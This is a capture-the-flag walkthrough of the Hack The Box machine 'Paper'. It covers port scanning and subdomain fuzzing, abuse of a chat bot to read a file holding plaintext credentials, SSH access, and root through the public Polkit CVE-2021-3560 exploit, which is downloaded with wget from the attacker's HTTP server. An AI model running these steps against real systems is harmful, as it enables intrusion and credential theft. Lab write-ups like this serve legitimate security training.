

# [Paper](https://app.hackthebox.com/machines/paper)

```bash
nmap -p- --min-rate 10000 10.10.11.143 -Pn   
```


After discovering open ports(22,80,443), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.143 -Pn
```


Let's add this ip address into '/etc/hosts' file as 'office.paper' domain.


Let's do subdomain enumeration.

```bash
ffuf -u http://office.paper/ -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```




I found 'chat.office.paper' and this into '/etc/hosts' file.

While browsing this page, I see `office.paper/?static=1`


I got URL from here which is about rocket chat which I can create account.

dr4ks: Dr4ks123!


I see that '**recyclops**' bot, let's use this


I found a environment file on 'hubot' directory via below command.

```bash
file ../hubot/.env
```


I grab below credentials from here.

recyclops: Queenofblad3s!23

I grab also possible username from '/etc/passwd' file.


username: dwight

Let's check this credentials via `crackmapexec` command.

```bash
crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'
```


user.txt


Let's search SUID files.

```bash
find / -perm -u=s -type f 2>/dev/null
```

x


I know from this output that Polkit binary may have user permission, let's check via `ls -l /usr/bin/pkexec`


I found a CVE exploit called [CVE-2021-3560](https://github.com/Almorabea/Polkit-exploit/tree/main).

1.Let's open HTTP server.

```bash
python3 -m http.server --bind 10.10.14.4 8080
```


2.Let's download script into machine via `wget` command.

```bash
wget http://10.10.14.4:8080/CVE-2021-3560.py
```

While I am on this user, I run `id` command and see that this user belongs `wheel` group which means a **special user group** used on some Unix systems, mostly BSD systems, to control access to the su or sudo command, which allows a user to masquerade as another user (usually the super user). Debian-like operating systems create a group called sudo with purpose similar to that of a wheel group.


I just give execution privlege then run.

```bash
chmod +x CVE-2021-3560.py
python3 CVE-2021-3560.py
```


root.txt

